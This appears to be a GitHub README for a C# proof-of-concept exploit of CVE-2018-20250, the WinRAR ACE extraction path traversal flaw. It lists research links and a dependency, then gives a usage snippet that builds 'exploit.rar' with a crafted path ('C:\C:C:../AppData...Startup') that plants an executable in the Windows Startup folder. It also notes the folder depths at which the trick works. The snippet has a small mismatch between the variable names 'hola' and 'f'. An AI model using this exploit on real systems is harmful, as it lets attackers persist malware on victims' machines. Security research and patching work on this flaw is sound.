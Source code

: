 # CVE-2018-20250-WinRAR-ACE
Proof of concept code in C# to exploit the WinRAR ACE file extraction path (CVE-2018-20250).

# Resources
https://research.checkpoint.com/extracting-code-execution-from-winrar/
https://github.com/droe/acefile
https://apidoc.roe.ch/acefile/latest/

# Dependencies
InvertedTomato.Crc (you can install it with NuGet) for the checksum method. You can use any other JAMCRC implementation.

# How to use
```csharp
  AceVolume av = new AceVolume();
  AceFile hola = new AceFile(
    @"D:\some_file.exe",
    @"C:\C:C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\some_file.exe"
  );
  av.AddFile(f);
  av.Save("exploit.rar");
```

# Bugs
Seems that it only extracts to startup folder when the .rar file is in Desktop or any folder on the same level.
